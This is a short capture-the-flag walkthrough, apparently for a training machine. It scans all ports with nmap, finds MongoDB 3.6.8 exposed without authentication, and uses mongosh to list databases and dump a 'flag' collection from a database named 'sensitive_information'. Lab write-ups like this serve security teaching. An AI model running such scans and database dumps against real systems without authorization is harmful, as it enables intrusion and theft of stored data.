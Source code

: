 How many TCP ports are open on the machine? 2 ports. Port 22 for `ssh` and 27017 for `mongodb`.

Scan for every single port, because MongoDB uses ports with high numbers.
```bash
nmap -O -sV -p- -Pn 10.129.181.87
```

Which service is running on port 27017 of the remote host? `MongoDB 3.6.8`.

What type of database is MongoDB? (Choose: SQL or NoSQL) NoSQL.

What is the command name for the Mongo shell that is installed with the mongodb-clients package? `mongo` or `mongosh`.

What is the command used for listing all the databases present on the MongoDB server? `show dbs`. Take a look at [Pentesting MongoDB](https://book.hacktricks.xyz/network-services-pentesting/27017-27018-mongodb).

What is the command used for listing out the collections in a database? `show collections`.

What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read? `db.flag.find().pretty()`.
```bash
sudo pacman -S mongodb-bin
mongosh 10.129.181.87
> show dbs
> use sensitive_information
> show collections
> db.flag.find().pretty()
```
